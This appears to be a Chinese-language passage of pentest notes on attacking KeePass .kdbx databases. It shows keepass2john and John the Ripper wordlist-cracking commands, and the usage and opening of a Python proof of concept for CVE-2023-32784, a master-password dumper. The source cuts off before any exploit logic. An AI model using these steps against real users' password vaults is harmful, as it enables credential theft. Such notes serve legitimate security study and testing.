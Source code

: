 .kdbx 文件由KeePass Password Safe创建，这是Windows的免费密码管理器；存储密码的加密数据库，该数据库只能使用用户设置的主密码查看；用于安全存储Windows、电子邮件帐户、FTP站点、电子商务站点和其他用途的个人登录凭据。

1、将 Passwords.kdbx 内容转为 john 支持的格式： 
```
keepass2john Passwords.kdbx > hash.txt
```
2、然后使用 john 破解：
```
john --wordlist=rockyou.txt hash.txt
```
#### CVE-2023-32784

利用：[# KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper)

使用：`python3 poc.py -d keepass.DMP`

源码：
``` python
import argparse
import logging
import itertools

class TaggedFormatter(logging.Formatter):

    TAGS = {
        'DEBUG': '\x1b[1;35m#\x1b[0m',
        'INFO': '\x1b[1;34m.\x1b[0m',
        'WARNING': '\x1b[1;33m-\x1b[0m',
        'ERROR': '\x1b[1;31m!\x1b[0m',
        'CRITICAL': '\x1b[1;31m!!\x1b[0m'
    }

    def __init__(self, format):
        logging.Formatter.__init__(self, format)

    def format(self, record):
        levelname = record.levelname

        if levelname in self.TAGS:
            record.levelname = self.TAGS[levelname]

        return logging.Formatter.format(self, record)


def setup_logging(debug = False):
    formatter = TaggedFormatter('%(asctime)s [%(levelname)s] [%(name)s] %(message)s')
    handler = logging.StreamHandler()
    root_logger = logging.getLogger()

    handler.setFormatter(formatter)
    root_logger.addHandler(handler)

    if debug:
        root_logger.setLevel(logging.DEBUG)
    else:
        root_logger.setLevel(logging.INFO)


def parse_args():
    parser = argparse.ArgumentParser(description='CVE-2023-32784 proof-of-concept')

    parser.add_argument('dump', type=str, help='The path of the memory dump to analyze')
    parser.add_argument('-d', '--debug', dest='debug', action='store_true', help='Enable debugging mode')

```